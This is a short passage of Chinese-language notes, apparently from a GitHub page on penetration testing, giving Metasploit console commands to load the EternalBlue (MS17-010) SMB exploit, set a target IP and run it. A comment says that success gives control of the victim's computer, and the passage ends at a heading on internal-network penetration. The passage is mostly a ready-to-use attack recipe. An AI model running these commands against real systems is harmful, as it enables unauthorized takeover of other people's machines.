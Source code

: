 

```
#msf console里：
use exploit #查看漏洞

use exploit/windows/smb/ms17_010_eternalblue
#使用该漏洞

show options
set RHOSTS [目标ip]
#如下图

run 运行
#运行成功后即拿到了对方电脑的控制权
```

![image-20220109225153371](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220109225153371.png)

```
exit  #退出
```



## msf内网渗透：
